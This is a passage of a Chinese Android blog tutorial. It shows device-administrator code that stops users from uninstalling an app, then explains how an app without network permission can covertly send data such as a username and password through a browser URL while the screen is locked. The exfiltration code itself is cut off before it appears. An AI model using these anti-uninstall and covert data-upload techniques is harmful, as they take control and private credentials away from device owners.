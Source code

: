 ````
}

```
注册一下，description可以写一下你给用户看的描述。
```
   <receiver
            android:name=".MyDeviceAdminReceiver"
            android:description="@string/description"
            android:label="防卸载"
            android:permission="android.permission.BIND_DEVICE_ADMIN" >
            <meta-data
                android:name="android.app.device_admin"
                android:resource="@xml/deviceadmin" />

            <intent-filter>
                <action android:name="android.app.action.DEVICE_ADMIN_ENABLED" />
            </intent-filter>
        </receiver>
```

调用系统激活服务
```
   // 激活设备超级管理员
    public void activation() {
        Intent intent = new Intent(DevicePolicyManager.ACTION_ADD_DEVICE_ADMIN);
        // 初始化要激活的组件
        ComponentName mDeviceAdminSample = new ComponentName(MainActivity.this, MyDeviceAdminReceiver.class);
        intent.putExtra(DevicePolicyManager.EXTRA_DEVICE_ADMIN, mDeviceAdminSample);
        intent.putExtra(DevicePolicyManager.EXTRA_ADD_EXPLANATION, "激活可以防止随意卸载应用");
        startActivity(intent);
    }
```
我们来看下运行的效果。激活以前是可以被卸载的。
![](http://upload-images.jianshu.io/upload_images/1110736-c4e9c0a76e313ef3.gif?imageMogr2/auto-orient/strip)

激活以后无法被卸载，连删除按钮都没有了。就算你拿其他安全工具或系统的卸载也不能卸载哦。
![](http://upload-images.jianshu.io/upload_images/1110736-f5566d61d30d8608.gif?imageMogr2/auto-orient/strip)

但是我们可以在设备管理器中可以取消激活就恢复了。这里我们是正常的方式来激活，不能排除root后的设备，当app拿到root权限后将自己提权自动激活，或者将自身写入到系统app区域，达到无法卸载的目的。所以我们常说root后的设备是不安全的也就在这里能说明问题。

github地址：https://github.com/BolexLiu/SuPerApp

---

## 无网络权限偷偷上传数据

这是一种超流氓的方式，目前市面上是存在这种app的。普通用户不太注意的话一般发现不了。另一个对立面说用户把app的访问网络权限禁用了如何告诉服务器消息呢？

**原理解析：**
虽然应用没有权限，或者我们之前有权限被用户屏蔽了。但是我们可以借鸡下蛋，调用系统浏览器带上我们要访问的参数。实际在服务端收到的时候就是一个get请求可以解析后面拼接出的参数。比如： `http://192.168.0.2/send?user=1&pwd=2` 这样就可以把user和pwd提交上去。当然这一切还不能被用户发现，所以很变态的判断用户锁屏后就打开浏览器发送消息，用户一旦解锁就回到桌面上，假装一切都没有发生过。

![](http://upload-images.jianshu.io/upload_images/1110736-2b391cb6522d0691.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


**实现代码：**
本来我不准备把代码贴出来的，但想了一下又有何妨。即便我不贴出来你也能找到，也能跟着思路写出来。但是千万千万不要给用户做这种东西。拜托了各位。
```
````